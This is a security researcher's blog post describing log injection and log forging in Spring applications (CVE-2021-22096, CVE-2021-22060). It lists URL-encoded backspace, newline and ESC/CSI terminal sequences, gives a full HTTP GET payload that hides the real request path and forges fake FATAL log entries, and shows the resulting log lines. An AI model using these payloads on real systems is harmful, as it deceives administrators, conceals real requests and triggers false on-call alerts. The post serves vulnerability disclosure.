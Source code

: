 ```yaml
---
layout: post
title:  "Log injection or log forging with control characters and ESC- & CSI-sequences"
datetime: 2022-02-14 15:15:00 MET
last_modified_at: 2022-02-14 15:15:00 MET
author: 'psytester'
---
```


Since long time I already get some nice log file entries in various projects by using newline, backspace, other control characters **AND** ESC- & CSI-sequences to inject the log file.<BR>
Only to confuse the admin or the log aggregation system as SPLUNK, Grafana Loki, etc.<BR>
Sometimes there could be a monitoring alert notification setup where someone needs to react as on-call duty.<BR>
Nobody wants to do this at night!!!

Recently I saw the spring-framework [CVE-2021-22096](https://tanzu.vmware.com/security/cve-2021-22096) and I thought great this is what I always do and I have sent my report.<BR>
[CVE-2021-22060](https://tanzu.vmware.com/security/cve-2021-22060) was released as follow-up of [CVE-2021-22096](https://tanzu.vmware.com/security/cve-2021-22096), but don't be surprised at the lower number, it doesn't matter.

Here I would like to explain my way of proceeding.
  
On top of simple CR/LR there are other control characters, especially the backspace URL encoded as %08 to hide the real url path in log file or the tab %09 but there are some more.<BR>
And control characters as **ESC- and CSI-sequences are usable as well**.<BR>
[http://manpages.ubuntu.com/manpages/bionic/man4/console_codes.4.html](http://manpages.ubuntu.com/manpages/bionic/man4/console_codes.4.html)<BR>
Only to mention some useful codes:<BR>
%1BE == ESC ^D == Linefeed<BR>
%1B%5BJ == ESC [J == CSI sequence to erase display -- erase from start to cursor.<BR>
%1B%5B2J == ESC [2J == CSI sequence to erase display -- erase whole display.<BR>
%1B%5BM == ESC [M == CSI sequence to delete the indicated # of lines.<BR>

 
I do a HTTP GET with: `https://my-hostname/api/RealPath/logentryInjectionWithNewlineAndBackspaces%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08/FakedPathForLogging - s.d.s.w.PropertySourcedRequestMappingHandlerMapping:109%0A2021-12-02 13:18:24,523 [http-nio-8443-exec-2] FATAL%20java.lang.Exception:%0A%20%20%20%20Exception in thread "main" java.lang.OutOfMemoryError: Java heap space%0A2021-12-02%2013%3A21%3A17,550%20%5Bhttp-nio-8443-exec-6%5D%20DEBUG%20looking%20up%20handler%20for%20path%3A%20error`

First you see, the URL path is `/api/RealPath/logentryInjectionWithNewlineAndBackspaces`<BR> which is forwarded by Gateway and `/api` is stripped off.<BR>
Due to some backspaces in URL the log file in backend will show a faked path:<BR>
`/FakedPathForLogging`<BR>
instead of real path:<BR>
`/RealPath/logentryInjectionWithNewlineAndBackspaces`

Here are the full logline entries of my backend for this GET request. Only in Http11InputBuffer DEBUG level you see the real content and PropertySourcedRequestMappingHandlerMapping shows less:
```
2021-12-02 13:40:29,428 [http-nio-8443-exec-7] DEBUG Received [GET /RealPath/logentryInjectionWithNewlineAndBackspaces%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08%08/FakedPathForLogging%20-%20s.d.s.w.PropertySourcedRequestMappingHandlerMapping:109%0A2021-12-02%2013:18:24,523%20%5Bhttp-nio-8443-exec-2%5D%20FATAL%20java.lang.Exception:%0A%20%20%20%20Exception%20in%20thread%20%22main%22%20java.lang.OutOfMemoryError:%20Java%20heap%20space%0A2021-12-02%2013:21:17,550%20%5Bhttp-nio-8443-exec-6%5D%20DEBUG%20looking%20up%20handler%20for%20path:%20error HTTP/1.1
....private.....
content-length: 0
] - o.a.c.h.Http11InputBuffer:173
2021-12-02 13:40:29,438 [http-nio-8443-exec-7] DEBUG looking up handler for path: /FakedPathForLogging - s.d.s.w.PropertySourcedRequestMappingHandlerMapping:109
```
